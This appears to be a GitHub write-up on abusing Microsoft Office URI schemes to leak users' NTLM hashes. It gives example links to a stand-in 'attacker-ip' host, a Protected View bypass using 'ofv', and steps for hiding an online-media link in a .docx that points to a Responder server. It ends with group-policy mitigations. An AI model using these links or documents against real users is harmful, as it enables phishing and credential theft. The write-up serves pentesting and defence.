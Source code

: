 # INTRODUCTION

I was recently reading up on [Microsoft GIFShell](https://github.com/bobbyrsec/Microsoft-Teams-GIFShell) as part of some testing I was doing related to Microsoft Teams and stumbled upon some interesting Microsoft documentation:
[Office URI Schemes | Microsoft Learn](https://learn.microsoft.com/en-us/office/client-developer/office-uri-schemes) 

The document outlines how Office URIs can be used to open Office application and files in various ways that only requires a click or two from a user. These methods are valuable for Pentesters and System Administrators to understand as they could be abused to target vulnerable users in phishing scenarios (example below).

Microsoft understands that these URI's could be used in nefarious ways, and they have implemented some protections to prevent documents from being opened from untrusted sources, or warn users that the file they are trying to open is coming from an untrusted source.
# TESTING THE METHODS

## PROTECTIONS
Below are two examples of "unsafe" methods that Microsoft Office tries to prevent.

### UNC PATH
When trying to access an Office URI link containing a UNC path to a file at an untrusted location, Microsoft Word blocks the file from opening and displays this error message:

`ms-word:ofe|u|//attacker-ip/document.docx`

![images/1.png](images/1.png)

### The file:// URI
When using the file:// URI, Word *will* open, but the user gets prompted for warnings, and if Responder is running, they will be asked to enter their credentials. For most users, this would be very suspicious behavior:

`ms-word:ofe|u|file://attacker-ip/document.docx`

![images/2.png](images/2.png)

## THE WORK AROUNDS
When using simple http (no certificate required!) Microsoft will open the document with just a banner telling the user that the file is in "PROTECTED VIEW" and that to enable editing, the user just has to click a single button!

`ms-word:ofe|u|http://attacker-ip/job_description.docx`

![images/3.png](images/3.png)
When using this method, the payload word document does not send NTLM hashes to the attacker server, until the user clicks the Enable Editing button. Additionally, the banner might make some users wary if the file they just opened was from an untrusted source.

However, this "PROTECTED VIEW" will only be applied under certain conditions, such as files with a MOTW, and specifically when the file is opened for the purposes of editing.
## BYPASSING PROTECTED VIEW

Until now, all of the links we have used, contain the letters "ofe", this stands for `Open File for Editing`, if we replace this with "ofv" (`Open File for Viewing`) the document is opened in Read Only mode. This bypasses the Protected View in Word and the user hash is sent to the attacker server:

`ms-word:ofv|u|http://attacker-ip/questions_form.docx`

![images/4.png](images/4.png)
And in Responder we have captured some hashes:
![images/5.png](images/5.png)

## ADDITIONAL PROTECTIONS/WARNINGS

Something to consider with these Office URIs is how they are sent to a user. 
A few examples:
 - Microsoft Teams does **not** allow Office URIs as links sent in messages. 
 - Clicking the link in most browsers prompts the user to confirm they want to open Word, Excel, etc.
 - Office products such as Word, Excel, and Outlook do not warn or prompt the user when a link is clicked that opens a document (Thanks Microsoft!).
 - Other products such as PDF viewers vary. Sometimes a warning or prompt is provided, sometimes Office just opens.

# THE PAYLOAD
Okay, you might be wondering "why on earth does opening this document send my NTLM hash to the attacker server?!". This is a valid question, and the answer is that it is due to a "feature" that Microsoft claims they will not fix. *Inserting Online Media.*

This is something I was made aware of when a colleague sent me video of a [talk by Sam Shute](https://www.youtube.com/watch?v=zp5Ds2FYnkU). I highly recommend giving it a watch, in the video he details a method where he inserts media from the web, sets the size to 0x0 pixels and hides it in the footer.
He then saves the document as a .zip file, extracts the contents, and modifies the link to the online image to point to his Responder server with the file:// URI . Save the file, compress the files back into a zip, and rename to .docx.

When the file is opened, MS Word finds the "Online Media" link, and immediately goes out to track down the image using the currently logged in user's account credentials. The user is never told that their credentials were sent out by Word, or that the image failed to load.


# PREVENTION
Probably the most effective way of preventing this type of hash theft is by limiting outbound NTLM traffic through group policy and firewall rules.
The policies you should configure are:

- Computer Configuration -> Windows Settings -> Security Settings -> Local Policies -> Security Options -> Network security: Restrict NTLM: Outgoing NTLM traffic to remote servers.
  - Set this to “Deny All”.

  ![images/6.png](images/6.png)

- Computer Configuration -> Windows Settings -> Security Settings -> Local Policies -> Security Options -> Network security: Restrict NTLM: Add remote server exceptions for NTLM authentication.
  - Add any trusted servers in your environment that require NTLM traffic.

  ![images/7.png](images/7.png)
